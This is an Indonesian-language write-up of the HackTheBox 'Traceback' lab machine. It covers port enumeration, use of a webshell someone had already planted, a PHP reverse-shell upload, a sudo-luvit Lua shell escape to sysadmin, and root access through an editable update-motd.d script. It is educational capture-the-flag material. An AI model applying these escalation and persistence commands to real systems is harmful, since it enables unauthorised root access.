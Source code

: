 # Traceback (Linux)

![Image](img/1.png)

HackTheBox Traceback dengan operating system Linux

### Enumeration

Mari kita mulai enumeration open port dengan menggunakan nmap

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp    filtered http
```

Sekilas kita melihat ada port 22 (TCP) yang open dan juga ada port 80 (HTTP) namun filtered.

Walaupun tulisannya filtered namun ternyata kita masih bisa akses websitenya tanpa masalah

![Image](img/2.png)

Ditemukan github Xh4H yang berhubungan dengan webshell

[https://github.com/Xh4H/Web-Shells](https://github.com/Xh4H/Web-Shells)

![Image](img/5.PNG)

Dari repository webshell yang penulis temukan tadi, penulis kemudian mencoba untuk membuka 1 per 1 nama webshell nya.

Ternyata benar, ditemukan file webshell bernama Smevk.php

![Image](img/3.png)

Penulis kemudian melakukan file upload sebuah file reverse shell php dari pentest monkey sebagai andalannya. Kenapa tidak menggunakan RCE yang sudah ada saja untuk membuka koneksi melewati netcat?

Penulis sudah mencoba menggunakan koneksi dari netcat namun sepertinya koneksi yang stabil tidak bisa didapatkan sehingga penulis mencoba cara lain.

Masuk sebagai web admin, ditemukan note.txt

![Image](img/4.png)

Ditemukan luvit, yang ternyata semacam compiler untuk Bahasa lua

```
https://luvit.io/
```

![Image](img/6.png)

Menjalankan sudo -l kita bisa mendapatkan sesuatu yang menarik

```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Dan menurut GTFOBins kita bisa menggunakan script lua tadi untuk menjalankan privilege escalation dari webadmin menjadi sysadmin

![Image](img/6.png)

```
Echo “os.execute(“/bin/sh”)” > privesc.lua

sudo -u sysadmin /home/sysadmin/luvit /home/webadmin/privesc.lua
```

Karena kita sudah menjadi sysadmin dan butuh perjuangan dalam mencapai sysadmin ini dari webshell ada baiknya kita memasukkan rsa key kita untuk lebih leluasa melakukan ssh kedalam boxnya.

Penulis sudah mencoba menjalankan LinEnum.sh dan manual enumeration, namun hal yang menarik justru bisa ditemukan saat menajalnakn pspy script

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

Pspy adalah tool yang super powerful untuk melihat running processes secara langsung.

Ternyata ada update-motd.d yang di backup setiap 30 detik dijalankan oleh root.

Update-motd.d adalah script yang dijalankan dengan permission root namun bisa diedit oleh sysadmin, kita tinggal memasukkan payload RCE kita kedalam untuk cat root / mendapatkan reverse shell as root

```
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

Kita bisa menambahkan payload RCE di file ini

```
echo “cat /root/root.txt” >> 00-header
```

Kemudian untuk meng-execute payload RCE kita, kita hanya harus login melalui SSH agar header motd ter trigger lagi

# Rooted !